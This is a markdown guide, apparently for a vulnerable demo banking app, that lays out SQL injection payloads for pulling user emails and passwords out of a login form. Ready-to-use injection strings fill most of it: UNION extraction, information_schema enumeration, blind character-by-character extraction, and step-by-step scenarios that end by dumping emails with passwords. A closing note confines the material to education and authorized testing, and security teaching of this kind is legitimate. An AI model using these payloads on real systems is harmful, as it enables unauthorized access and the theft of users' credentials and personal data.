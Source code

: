 # 🔍 SQL Injection Email Discovery Guide

This guide shows you how to discover user emails and other sensitive information through SQL injection attacks.

## 🎯 **Basic Email Discovery Techniques**

### 1. **Simple UNION Attack**
```sql
' UNION SELECT email,email FROM users--
```
- **What it does:** Extracts all email addresses from the users table
- **Result:** You get a list of all user emails

### 2. **Limited Email Extraction**
```sql
' UNION SELECT email,email FROM users LIMIT 1--
```
- **What it does:** Gets only the first email address
- **Result:** Single email to start with

### 3. **Pattern-Based Discovery**
```sql
' UNION SELECT email,email FROM users WHERE email LIKE '%@%'--
```
- **What it does:** Finds emails containing '@' symbol
- **Result:** All valid email addresses

### 4. **Admin Email Discovery**
```sql
' UNION SELECT email,email FROM users WHERE email LIKE 'admin%'--
```
- **What it does:** Finds admin-related emails
- **Result:** Admin email addresses

## 🔓 **Advanced Email Discovery**

### 5. **Database Schema Enumeration**
```sql
' UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_name='users'--
```
- **What it does:** Discovers table structure
- **Result:** Column names including email field

### 6. **Error-Based Discovery**
```sql
' AND (SELECT COUNT(*) FROM users WHERE email LIKE '%@%')>0--
```
- **What it does:** Tests if emails exist
- **Result:** Boolean response about email existence

### 7. **Blind Email Extraction**
```sql
' AND (SELECT SUBSTRING(email,1,1) FROM users LIMIT 1)='a'--
```
- **What it does:** Extracts emails character by character
- **Result:** Email addresses extracted slowly

## 🎭 **Real-World Attack Scenarios**

### **Scenario 1: Unknown Database Structure**
1. **First:** `' UNION SELECT 1,2--` (test UNION)
2. **Then:** `' UNION SELECT table_name,column_name FROM information_schema.columns--`
3. **Finally:** `' UNION SELECT email,password FROM users--`

### **Scenario 2: Email Enumeration**
1. **Start:** `' UNION SELECT email,email FROM users LIMIT 1--`
2. **Continue:** `' UNION SELECT email,email FROM users LIMIT 1 OFFSET 1--`
3. **Complete:** `' UNION SELECT email,email FROM users--`

### **Scenario 3: Pattern Matching**
1. **Admin emails:** `' UNION SELECT email,email FROM users WHERE email LIKE 'admin%'--`
2. **Gmail users:** `' UNION SELECT email,email FROM users WHERE email LIKE '%@gmail.com'--`
3. **Company emails:** `' UNION SELECT email,email FROM users WHERE email LIKE '%@company.com'--`

## 🚀 **How to Use in Your Demo**

### **Step 1: Basic Discovery**
- Email: `' UNION SELECT email,email FROM users--`
- Password: `anything`
- **Result:** All emails exposed

### **Step 2: Targeted Discovery**
- Email: `' UNION SELECT email,email FROM users WHERE email LIKE 'admin%'--`
- Password: `anything`
- **Result:** Admin emails only

### **Step 3: Complete Enumeration**
- Email: `' UNION SELECT email,password FROM users--`
- Password: `anything`
- **Result:** All emails + passwords

## 📊 **What You'll Discover**

### **Email Patterns Found:**
- **Admin accounts:** admin@bank.com
- **Regular users:** john@bank.com, jane@bank.com
- **Email domains:** @bank.com, @gmail.com, etc.
- **Email formats:** firstname@domain.com

### **Additional Data:**
- **Usernames:** Extracted from email addresses
- **Domain information:** Company email domains
- **Account types:** Admin vs regular user patterns

## ⚠️ **Important Notes**

1. **Always test in controlled environments**
2. **These techniques work on vulnerable systems only**
3. **Use for educational and security testing purposes**
4. **Never attack real systems without permission**

## 🎯 **Success Indicators**

- **Console shows:** "🔍 EMAIL DISCOVERY ATTACK DETECTED!"
- **Page shows:** "🎯 HACK SUCCESSFUL!"
- **JSON file:** Downloaded with all user data
- **Console log:** Complete email list displayed

---

**Remember:** This guide is for educational purposes to understand how attackers discover sensitive information through SQL injection vulnerabilities.

